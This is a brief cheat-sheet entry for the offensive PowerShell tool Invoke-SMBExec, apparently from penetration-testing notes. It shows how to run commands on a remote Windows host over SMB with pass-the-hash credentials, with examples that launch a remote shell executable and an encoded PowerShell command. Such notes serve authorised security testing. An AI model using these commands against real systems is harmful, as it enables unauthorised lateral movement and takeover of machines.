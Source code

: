 # Invoke-SMBExec

Search Tag(s): #lateral-movement #service-control-manager #windows

## 01 - Syntax

```
PS C:\> Import-Module .\Invoke-SMBExec.ps1

PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain> -Username <username> -Hash <nt_hash> -Command "<commands>"
```

## 02 - Usage

```
PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain> -Username <username> -Hash <nt_hash> -Command "C:\path\to\remote\shell.exe"

PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain> -Username <username> -Hash <nt_hash> -Command "powershell -E <base64_encoded>"
```

---
## References

- [Invoke-SMBExec](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/lateral_movement/Invoke-SMBExec.ps1)
